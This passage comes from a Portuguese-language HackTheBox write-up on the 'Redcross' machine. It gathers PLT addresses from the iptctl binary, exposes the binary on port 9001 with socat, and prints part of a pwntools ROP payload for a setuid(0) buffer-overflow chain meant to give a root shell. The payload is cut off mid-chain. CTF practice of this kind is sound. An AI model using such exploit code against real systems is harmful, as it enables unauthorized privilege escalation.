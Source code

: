 > p execvp

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_bof17.png)

Pegamos todos os valores da tabela `plt` também

> objdump -D -j .plt iptctl | grep \@plt

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_bof18.png)

```
00000000004006e0 <strncpy@plt>:
00000000004006f0 <strcpy@plt>:
0000000000400700 <puts@plt>:
0000000000400710 <strlen@plt>:
0000000000400720 <printf@plt>:
0000000000400730 <fgets@plt>:
0000000000400740 <inet_pton@plt>:
0000000000400750 <fflush@plt>:
0000000000400760 <execvp@plt>:
0000000000400770 <exit@plt>:
0000000000400780 <setuid@plt>:
0000000000400790 <fork@plt>:
00000000004007a0 <strstr@plt>:
```

### Fazendo a interação

Uma vez que a máquina não disponibiliza essa aplicação por nenhuma porta, eu vou dar um jeito de ela fazer isso

`socat TCP-LISTEN:9001 EXEC:"/opt/iptctl/iptctl -i"`

Isso vai fazer a máquina Redcross abrir a porta 9001 e disponibilizar o binário iptctl

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_bof19.png)

Agora executamos o payload final

### Explorando e ganhando shell de root

Copiei do 0xdf, não consegui desenvolver ele, quando tiver um conhecimento melhor de exploração de binários em sistemas 64bits retorno aqui

payload.py
```
#!/usr/bin/env python
# on redcross setup iptctl with socat listening on 9001
# socat TCP-LISTEN:9001 EXEC:"/opt/iptctl/iptctl -i"

from pwn import *


# addresses
execvp  = p64(0x400760) # execve plt
setuid  = p64(0x400780) # setuid plt
pop_rdi = p64(0x400de3) # pop rdi; ret
pop_rsi = p64(0x400de1) # pop rsi; pop r15; retd
sh_str  = p64(0x40046e) # "sh"

#setup payload
payload = "allow" +("A"*29)

# setuid(0)
payload += pop_rdi
payload += p64(0)
payload += setuid
```